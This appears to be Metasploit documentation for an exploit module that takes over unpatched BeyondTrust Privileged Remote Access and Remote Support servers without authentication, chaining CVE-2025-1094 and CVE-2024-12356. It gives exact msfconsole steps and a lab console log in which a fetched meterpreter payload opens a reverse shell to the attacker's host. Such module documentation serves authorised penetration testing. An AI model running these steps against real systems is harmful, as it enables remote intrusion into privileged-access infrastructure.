 ## Vulnerable Application
This exploit achieves unauthenticated remote code execution against BeyondTrust Privileged Remote
Access (PRA) and Remote Support (RS), with the privileges of the site user of the targeted BeyondTrust
product site. This exploit targets PRA and RS versions `24.3.1` and below.

## Testing
This exploit was tested against a vulnerable BeyondTrust Remote Support target running version `24.1.2`. To install
a virtual appliance, follow [this documentation](https://docs.beyondtrust.com/rs/docs/va-install). You will first need
to acquire the relevant software packages.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/http/beyondtrust_pra_rs_unauth_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
5. `set LHOST eth0`
6. `set LPORT 4444`
7. `check`
8. `exploit`

## Options

### TargetCompanyName
If set, use this name value to identify the company name of the deployed site (e.g. `mytestcompany`).
By default, this is auto discovered.

### TargetServerFQDN
If set, use this FQDN value to identify the FQDN of the deployed site (e.g. `support.mytestcompany.com`).
By default, this is auto discovered.

### LeverageCVE_2024_12356
By default, this exploit does not leverage the argument injection vulnerability CVE-2024-12356, and instead exploits the
SQLi vulnerability CVE-2025-1094 directly. Enabling this option will cause this exploit to leverage CVE-2024-12356 during
the exploitation of the SQLi vulnerability CVE-2025-1094. In either case the SQLi vulnerability CVE-2025-1094 is leveraged
to achieve RCE.

## Scenarios

### Default

```
msf6 exploit(linux/http/beyondtrust_pra_rs_unauth_rce) > show options 

Module options (exploit/linux/http/beyondtrust_pra_rs_unauth_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.105   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                       html
   RPORT    443              yes       The target port (TCP)
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      usKuEPuSzgnx     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /var/tmp         yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/beyondtrust_pra_rs_unauth_rce) > check
[*] 192.168.86.105:443 - The target appears to be vulnerable. Detected version 24.1.2
msf6 exploit(linux/http/beyondtrust_pra_rs_unauth_rce) > exploit
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 24.1.2
[*] Using company name: mytestcompany
[*] Sending stage (3045380 bytes) to 192.168.86.105
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.105:10104) at 2025-01-31 10:51:38 +0000

meterpreter > getuid
Server username: mytestcompany
meterpreter > sysinfo
Computer     : 192.168.86.105
OS           : Gentoo 2.14 (Linux 6.1.76-bt)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
